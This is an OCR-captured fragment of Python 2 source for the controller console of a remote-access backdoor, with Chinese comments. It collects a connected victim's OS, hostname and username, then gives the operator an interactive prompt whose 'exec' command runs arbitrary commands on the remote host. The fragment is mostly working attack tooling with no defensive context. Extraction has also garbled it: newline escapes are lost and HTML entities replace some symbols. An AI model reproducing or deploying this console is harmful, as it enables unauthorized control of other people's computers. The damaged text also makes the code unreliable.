 ```
'''
    return script_colors('gray',banner)

# 控制台函数
def console(connection, address):
    print script_colors("g", " [ Info ] ") + script_colors("b", "Connection Established from %sn" % (address))

    sysinfo = connection.recv(2048).split(",")

    x_info = ''
    x_info += script_colors("g","Operating System: ") +"%sn" % (script_colors("b",sysinfo[0]))
    x_info += script_colors("g","Computer Name: ") +"%sn" % (script_colors("b",sysinfo[1]))
    x_info += script_colors("g","Username: ") + "%sn" % (script_colors("b",sysinfo[5]))
    x_info += script_colors("g","Release Version: ") + "%sn" % (script_colors("b",sysinfo[2]))
    x_info += script_colors("g","System Version: ") + "%sn" % (script_colors("b",sysinfo[3]))
    x_info += script_colors("g","Machine Architecture: ") + "%s" % (script_colors("b",sysinfo[4]))

    if sysinfo[0] == "Linux":
        user = sysinfo[6] + "@" + address
    elif sysinfo[0] == "Windows":
        user = sysinfo[7] + "@" + address
    else:
        user = "Unknown@" + address

    while 1:
        command = raw_input(" " + script_colors("underline",
                                                script_colors("lgray","%s" % (user))) + " " + script_colors('lgray',"&gt;") + " ").strip()
        if command.split(" ")[0] == "exec":
            if len(command.split(" ")) == 1:
                print script_colors("r", "n [!] ") + script_colors("b", "Command: exec &lt;command&gt;")
                print script_colors("g", "n Execute Argument As Command On Remote Hostn")
                continue

            res = 1
            msg = " "

            while len(command.split(" ")) &gt; res:
                msg += command.split(" ")[res] + " "
                res += 1

            response = send_data(connection,"exec " + msg)

            if response.split("n")[-1].strip() != "":
                response += "n"
            if response.split("n")[0].strip()!="":
                response = "n" + response

            for x in response.split("n"):
                print " " + x
        elif command == "":
            continue
        elif command == "cls":
            if sysinfo[0] == "Linux":
                dp = os.system("clear")
            elif sysinfo[0] == "Windows":
                dp = os.system("cls")
        elif command == "help":
            print script_colors("lgray",help())
        elif command == "sysinfo":
            if sysinfo[0] == "Linux":
```